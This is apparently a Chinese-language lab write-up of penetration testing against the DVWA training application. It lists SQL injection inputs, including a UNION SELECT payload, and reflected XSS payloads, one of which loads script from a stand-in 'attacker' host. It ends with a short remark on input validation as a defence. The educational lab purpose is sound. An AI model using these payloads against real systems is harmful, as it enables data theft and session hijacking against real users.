

# 渗透测试

## 环境搭建

直接使用了[在线版本DVWA](https://www.vulnspy.com/dvwa/)直接面去了环境搭建之苦. ~~(白下了好久的OWASP_Broken_Web_Apps_VM_1.2,又卡又没用.)~~


## SQL注入测试

简单来讲SQL注入就是采用一些SQL语句上检查的漏洞来进行攻击.采用特殊的输入来对数据库的数据进行查询和修改.比如正常来说,我们只能按照当前用户的ID查找到对应的内容.例如输入1则只能获取对应1的用户的信息.


但是通过对SQL语句进行特殊的测试和修改我们可以得到额外的内容.例如输入1'or'1'='1,我们可以查询到所有用户的信息.




另外的通过适当的修改语句,我们还可以查到非当前功能应该返回的值.例如输入1' and 1=2 union select version(),database() -- 我们可以查询到当前数据库的版本等.


## 跨站脚本攻击测试

跨站脚本攻击共分为三类反射型（Reflected）、存储型（Stored）、DOM型.原理是采用html文本中的具体漏洞来添加弹窗甚至是查询新的信息.这里我们只对反射型的跨站脚本进行实验.

准备好对应的攻击文本.并输入对应的文本框就可以得到如下的内容.

```xml
<script>alert(123)</script>
<script>javascript:alert(document.cookie);</script>
<input onfocus="javascript:alert(document.cookie)" />
<script src="http://attacker/xss.js">confirm(123)</script>

```


## 如何防范

对应的DVMA有安全性选择,我查看了一下对应的DVMA下不同安全等级的代码规范, 更高级的代码对应的对输入的条件约束更详细,并且对应的逻辑更为的紧密.这个是我们今后设计开发要考虑到的部分.也即设计更为严谨的代码输入规范.


## 参考资料

[在线环境](https://www.vsplate.com/labs.php)

[SQL注入之DVWA平台测试mysql注入](https://www.cnblogs.com/saryli/p/5883915.html)

[DVWA之跨站脚本攻击漏洞测试01-反射型XSS](https://www.jianshu.com/p/c6ed01e6f905)

